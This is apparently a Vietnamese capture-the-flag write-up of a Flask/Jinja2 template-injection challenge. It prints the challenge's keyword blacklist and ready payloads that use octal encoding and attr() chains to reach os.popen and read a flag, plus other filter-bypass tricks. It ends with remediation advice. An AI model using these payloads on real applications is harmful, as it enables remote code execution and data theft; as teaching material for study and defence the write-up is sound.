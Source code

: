 # 🚩 Kỹ Thuật Khai Thác SSTI Nâng Cao: ISITDTU CTF 2023 "thru the filter"

## 🔍 Tổng Quan Thử Thách
**Tên thử thách:** thru the filter  
**Loại:** Khai thác Web (SSTI)  
**Độ khó:** Cao  
**Kỹ thuật chính:** 
- Mã hóa octal
- Bypass truy cập thuộc tính
- Khai thác chuỗi đối tượng Python

2.1. Cấu Trúc Ứng Dụng
Ứng dụng sử dụng Flask với một endpoint chính /:

Nhận tham số c từ URL (request.args.get('c')).

Kiểm tra payload với hàm check_payload().

Nếu payload không bị chặn → render_template_string(ssti) → SSTI.

2.2. Hàm check_payload - Blacklist Kiểm Tra Tĩnh
```
blacklist = [
    'import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen',
    'mro', 'cycler', 'joiner', 'u', 'x', 'g', 'args', 'get_flashed_messages',
    'base', '[', ']', 'builtins', 'namespace', 'self', 'url_for', 'getitem',
    '.', 'eval', 'update', 'config', 'read', 'dict'
]
```
Nhận xét:
- Chặn hầu hết từ khóa quan trọng (os, popen, globals, _, [], ., ...).
- Kiểm tra tĩnh (any(bl in payload for bl in blacklist)), dễ bypass bằng mã hóa hoặc kỹ thuật gián tiếp.
- Không chặn attr() → Có thể thay thế dấu chấm (.).
3. Kỹ Thuật Bypass Blacklist
3.1. Mã Hóa Payload Bằng Octal
Do filter chặn các từ khóa quan trọng, ta chuyển sang mã hóa octal:
```
__class__ → \137\137\143\154\141\163\163\137\137
__base__ → \137\137\142\141\163\145\137\137
os → \157\163
popen → \160\157\160\145\156
```
3.2. Thay Thế Toán Truy Cập Thuộc Tính
Truy cập thông thường	Thay thế bypass
request.args.x	request|attr("args")|attr("x")
x[0]	x|attr("__getitem__")(0)
3.3. Khai Thác Chuỗi Đối Tượng Python
Kỹ thuật leo chuỗi đối tượng để đạt RCE:
```
() → __class__ → __base__ → __subclasses__() → [Popen] → RCE
```
4. Quá Trình Khai Thác Chi Tiết
4.1. Xác Định SSTI
Thử nghiệm với payload cơ bản:
```
/?c={{7*7}} → Kết quả "49" → Xác nhận SSTI.
```
4.2. Bypass Blacklist Để Truy Cập Thuộc Tính
Sử dụng attr() thay cho dấu chấm:
```
{{()|attr("\137\137\143\154\141\163\163\137\137")}}  # __class__
```
4.3. Leo Chuỗi Đối Tượng
```
{{()|attr("\137\137\143\154\141\163\163\137\137")
  |attr("\137\137\142\141\163\145\137\137")
  |attr("\137\137\163\165\142\143\154\141\163\163\145\163\137\137")()}}
```
Kết quả: Liệt kê tất cả các lớp con trong Python.
![image](https://github.com/user-attachments/assets/20790b3d-8122-4e1b-9039-c4688fb94192)
4.4. Tìm Index Của Lớp Popen
Brute-force để tìm index chứa lớp Popen (ở đây là 367):
```
for i in range(500):
    payload = f"{{{{()|attr('\\137\\137class\\137\\137')|attr('\\137\\137base\\137\\137')|attr('\\137\\137subclasses\\137\\137')()|attr('\\137\\137getitem\\137\\137')({i})}}}}"
    if "Popen" in response:
        print(f"Found Popen at index: {i}")
```
![image](https://github.com/user-attachments/assets/6e5af4d1-d60f-4760-a755-6d3797266f0b)
4.5. Truy Cập os Module Và Thực Thi Lệnh
```
{{()|attr("\137\137\143\154\141\163\163\137\137")
  |attr("\137\137\142\141\163\145\137\137")
  |attr("\137\137\163\165\142\143\154\141\163\163\145\163\137\137")()
  |attr("\137\137\147\145\164\151\164\145\155\137\137")(367)  # Popen
  |attr("\137\137\151\156\151\164\137\137")
  |attr("\137\137\147\154\157\142\141\154\163\137\137")
  |attr("\137\137\147\145\164\151\164\145\155\137\137")("\157\163")  # os
  |attr("\160\157\160\145\156")("cat flag.txt")  # popen('cat flag.txt')
  |attr("\162\145\141\144")()}}  # read()
```
Kết quả: Đọc được flag!
![image](https://github.com/user-attachments/assets/89af56e6-37b4-433c-9ef8-866e5e749f9b)
5. Các Kỹ Thuật Nâng Cao Khác
5.1. String Concatenation
```
{% set a = '__cla' %}{% set b = 'ss__' %}{{ ''|attr(a~b) }}
```
5.2. Hex Encoding
```
__class__ → \x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f
```
5.3. Sử Dụng format()
```
{{ ""|attr("__%s__"|format("class")) }}
```
6. Đánh Giá Lỗ Hổng
6.1. Nguyên Nhân
Sử dụng render_template_string() với input người dùng mà không kiểm soát.

Blacklist không hiệu quả → Dễ bypass bằng mã hóa hoặc kỹ thuật gián tiếp.

6.2. Cách Phòng Chống
Không dùng render_template_string với input người dùng.

Sử dụng allowlist thay vì blacklist.

Sandboxing (ví dụ: Jinja2 Sandbox).

7. Kết Luận
Lỗ hổng SSTI trong bài này rất nguy hiểm do cho phép RCE toàn hệ thống.

Blacklist không đủ mạnh → Cần áp dụng allowlist hoặc sandboxing.

Kỹ thuật mã hóa và bypass thuộc tính hiệu quả để vượt qua filter.

✅ Patch thành công sẽ ngăn chặn hoàn toàn khả năng bị khai thác.

